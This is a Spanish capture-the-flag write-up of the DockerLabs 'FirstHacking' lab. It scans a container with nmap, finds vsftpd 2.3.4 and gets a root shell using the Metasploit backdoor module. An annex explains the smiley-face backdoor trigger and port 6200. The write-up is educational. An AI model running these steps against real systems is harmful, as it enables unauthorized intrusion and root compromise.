# Writeup: FirstHacking - DockerLabs

##  Ficha Técnica

| Parámetro | Detalle |

| **Plataforma** | DockerLabs |
| **Máquina** | FirstHacking |
| **Dificultad** | Muy Fácil / Fácil |
| **Sistema Operativo** | Linux |
| **Categoría** | Linux / Network Pentesting |
| **Autor** | Luis Roberto Herrera |
| **Fecha** | 8 de diciembre de 2026 |

---

## Disclaimer
*El contenido de este documento ha sido realizado exclusivamente con fines educativos y de aprendizaje en un entorno de laboratorio controlado y autorizado.*

---

## 1. Entorno de Laboratorio y Despliegue

Iniciamos desplegando el entorno local de la máquina victima **FirstHacking** a través de la plataforma DockerLabs.


Confirmamos que el contenedor/máquina virtual fue desplegado correctamente y asignado a la red local de pruebas.



---

## 2. Reconocimiento y Escaneo de Red

### 2.1 Verificación de Conectividad
Ejecutamos un envío pquetes mediante la herramienta `ping` para validar el estado del host objetivo (`172.17.0.2`) e inferir su sistema operativo base mediante el tiempo de vida del paquete (**TTL**).

```bash
ping -c 4 172.17.0.2
```



* **Observación:** El valor retornado de **TTL = 64** sugiere que la máquina objetivo ejecuta un sistema operativo **Linux**.

---

### 2.2 Escaneo de Puertos y Servicios con Nmap
Realizamos un escaneo completo de puertos para identificar servicios expuestos y sus versiones exactas:

```bash
nmap -sV -p- -T5 172.17.0.2
```



* **Puerto Abierto Encontrado:** `21/tcp`
* **Servicio:** `ftp`
* **Versión:** `vsftpd 2.3.4`

---

### 2.3 Auditoría de Scripts de Nmap e Intento de Autenticación Anónima
Ejecutamos scripts automatizados de la Nmap Scripting Engine para auditar la seguridad del servicio FTP y detectar alguna vulerabilidad conocida

```bash
nmap -sC -T5 172.17.0.2
```


Al intentar ingresar sin credenciales (*anonymous*), el servidor rechaza el acceso, lo que confirma que se requiere una autenticación previa o la explotación directa del servicio.



---

## 3. Análisis de Vulnerabilidades

Conociendo el software exacto y su versión (`vsftpd 2.3.4`), procedemos a consultar la base de datos local de exploits (**Exploit-DB**) mediante la herramienta `searchsploit`:

```bash
searchsploit vsftpd 2.3.4
```



* **Resultado:** Se identifica la presencia de un backdoor conocido (*Smiley Backdoor*) en la versión `vsftpd 2.3.4` con módulo de explotación disponible en Metasploit Framework.

---

## 4. Explotación

### 4.1 Configuración e Inicio de Metasploit
Iniciamos el framework de Metasploit y buscamos el módulo correspondiente a la vulnerabilidad hallada:

```bash
msfconsole
msf6 > search vsftpd 2.3.4
```



Cargamos el exploit seleccionando el módulo correspondiente:

```bash
msf6 > use 0
```



---

### 4.2 Configuración de Parámetros (`RHOSTS`)
Verificamos las opciones requeridas por el exploit:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```



Establecemos la dirección IP del objetivo en el parámetro `RHOSTS`:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
```


---

### 4.3 Ejecución del Exploit
Lanzamos el ataque para gatillar la ejecución del backdoor en la máquina víctima:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```



Se establece con éxito una sesión interactiva (Command Shell) en el host objetivo.

---

## 5. Post-Explotación

Con la shell abierta en el sistema remoto, validamos los privilegios obtenidos ejecutando el comando `whoami`:

```bash
whoami
```



* **Resultado:** La shell fue obtenida con privilegios de **root** (máximo nivel de acceso en el sistema Linux).

---

## 📚 Anexo Técnico y Conceptos Clave

Esta sección detalla los fundamentos técnicos, parámetros y conceptos utilizados durante el desarrollo de este laboratorio.

### 1. Detección de Sistema Operativo por TTL (Time to Live)
El TTL indica la cantidad de saltos de red (*hops*) que un paquete IP puede realizar antes de ser descartado. Los sistemas operativos asignan un TTL inicial estándar por defecto:
* **Linux / Unix:** `64`
* **Windows:** `128`
* **Routers / Dispositivos de red (Cisco, etc.):** `255`

Un TTL devuelto de `64` en la respuesta del comando `ping` nos permite inferir que el sistema objetivo es Linux.

### 2. Desglose de Parámetros de Nmap
* `-sV` (**Service Version Detection**): Realiza peticiones adicionales al puerto abierto analizando las respuestas de los banners para determinar el nombre exacto del software y su versión (`vsftpd 2.3.4`).
* `-p-` (**All Ports**): Ordena a Nmap escanear el rango completo de **65,535 puertos TCP** (del 1 al 65535), evitando pasar por alto servicios configurados en puertos no estándar.
* `-T5` (**Timing Template - Insane**): Define la agresividad y velocidad del escaneo (escala de `T0` a `T5`). `T5` acelera considerablemente el proceso en entornos locales o de laboratorio donde no existe preocupación por saturar el ancho de banda ni ser detectado por un IDS/IPS.

### 3. Vulnerabilidad `vsftpd 2.3.4` (Smiley Face Backdoor)
Entre junio y julio de 2011, un atacante logró comprometer el código fuente oficial del servidor FTP `vsftpd` e incluyó una puerta trasera (*backdoor*). 
* **Mecanismo:** Si un cliente intenta autenticarse mediante FTP introduciendo un nombre de usuario que termina con el símbolo `:)` (una carita sonriente), el servidor abre automáticamente una shell de comandos escuchando en el puerto TCP `6200` con privilegios del proceso que ejecuta el servicio FTP (usualmente `root`).

```